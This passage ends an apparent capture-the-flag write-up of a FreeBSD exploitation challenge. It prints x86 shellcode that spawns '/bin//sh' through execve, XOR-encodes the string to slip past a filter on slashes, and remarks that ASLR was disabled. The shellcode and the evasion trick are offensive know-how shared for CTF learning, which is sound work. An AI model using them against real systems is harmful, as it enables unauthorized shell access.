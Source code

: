 The last part is to call execve(["/bin//sh",NULL,NULL]). I XOR encoded "/bin//sh" with 0x11111111 since it contained slashes which was a forbidden character.
```
xor eax,eax
push eax
push 2036481598
pop ebp
xor ebp,0x11111111
push ebp
push 2138600254
pop ebp
xor ebp,0x11111111
push ebp
mov ecx,esp
push eax
push esp
push esp
push ecx
push eax
mov al,0x3b
int 0x80
```

Now we can get a flag, which I will not be posting here.

## Trivia
In my VM and in the remote condition ASLR was disabled. In the VM I looked at addresses with GDB and realized that it doesn't change every time I execute it. In the remote service the leaked heap address never changed. Therefore I guess a FreeBSD system has potentially more 'pwnable' properties compared to other operating systems like Windows or Ubuntu Linux which are more popular.
